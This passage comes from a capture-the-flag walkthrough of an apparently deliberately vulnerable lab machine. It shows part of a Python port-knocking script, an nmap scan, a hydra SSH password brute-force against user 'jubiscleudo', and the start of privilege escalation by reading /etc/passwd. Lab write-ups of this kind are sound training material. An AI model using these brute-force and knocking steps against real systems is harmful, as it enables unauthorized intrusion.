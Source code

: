 	    if index == 1:
	        print(arr)
	        knock(arr)
	    else:
	        for i in range(index - 1):
	            possiblePermutations(arr, index -1)
	
	            if(index % 2 == 0):
	                swap(arr, i, index - 1)
	            else:
	                swap(arr, 0, index -1)
	        
	        possiblePermutations(arr, index - 1)
	
	if(isHostUp(target_ip)):
	    print("[+] Scanning "  + target_ip + "...") # Check if host is up and can be scanned
	
	    possiblePermutations(ports, len(ports))
	    
	else:
	    print("Host Is Not Up!")
	

We can also use the command 'knock'.

    $ nmap -T5 -p22 10.0.0.34

![image](https://user-images.githubusercontent.com/76552238/158252286-e1afea45-adf6-47c8-8bc7-54f0cd963950.png)

After running the script we can use NMAP to scan the machine again and see that port 22 is open.  
After port knocking we can brute force SSH with the wordlist that we found and the username 'jubiscleudo'.

    $ hydra -l 'jubiscleudo' -P wordlist.txt ssh://10.0.0.34 -V -I

![image](https://user-images.githubusercontent.com/76552238/158252703-888fa252-4a35-430a-8b57-ed4dbd5b52f5.png)

Once we are logged in we can read the flag '**.user.txt**' on the home folder.

> ### ***.user.txt:***

![image](https://user-images.githubusercontent.com/76552238/158252875-492626ff-1fe2-41e4-acde-16390ef6d45d.png)

## ***PRIVILEGE ESCALATION***

Let's see if there are more users on the machine.

    $ cat /etc/passwd | grep /bin/bash

    root:x:0:0:root:/root:/bin/bash
    hackable_3:x:1000:1000:hackable_3:/home/hackable_3:/bin/bash
    jubiscleudo:x:1001:1001:,,,:/home/jubiscleudo:/bin/bash

There is another user on the machine named '**hackable_3**'.

Going to ***/var/www/html***, we can find the file ***.backup_config.php***:

![image](https://user-images.githubusercontent.com/76552238/158253164-5c60e96b-a03e-4777-9a0d-ca8ddecf74b1.png)
